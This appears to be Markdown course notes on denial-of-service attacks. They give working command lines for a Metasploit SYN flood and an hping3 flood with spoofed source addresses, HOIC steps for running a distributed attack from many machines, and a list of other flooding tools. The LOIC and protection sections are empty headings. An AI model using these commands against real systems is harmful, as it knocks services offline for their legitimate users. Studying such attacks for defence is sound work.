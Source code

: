 # Module 10 - Denial-of-Service #
Denial-of-Service is an attack on a computer or network that reduces, restricts or prevents accessibility of system resources to its legitimate users.

## SYN Flooding a Target ##
### Metasploit ###
``` msfconsole ```

1. ``` use auxiliary/dos/tcp/synflood ```
2. ``` show options ```, ``` set RHOST <Target IP> ```, ``` set RPORT <Open Target Port - Ex. 21> ```, ``` set SHOST <Spoofed Source IP> ```, ``` set TIMEOUT <Seconds to wait for new data - Ex. 20000> ```
3. ``` exploit ```

### Hping3 ###
``` hping3 -S <Target IP> -a <Spoofed Source IP> -p <Target Port> --flood ``` - '-S' sets the TCP SYN flag 


## Performing Distributed Denial-of-Service Attacks ##
### High Orbit Ion Cannon (HOIC) ###
1. Set the Target, set the Power bar to 'High', select the Booster 'GenericBoost.hoic', and click 'Add'
2. Set the nº of threads - Ex. 20
3. Do the same on as many machines as you can
4. 'Fire Teh Lazer!'

### Low Orbit Ion Cannon (LOIC) ###


## Other DoS/DDoS Tools ##
* HULK 
* R-U-Dead-Yet 
* Tsunami 
* Moihack Port-Flooder

- - - -

## Detect and Protect Against DoS and DDoS Attacks ##
### Anti DDoS Guardian ###
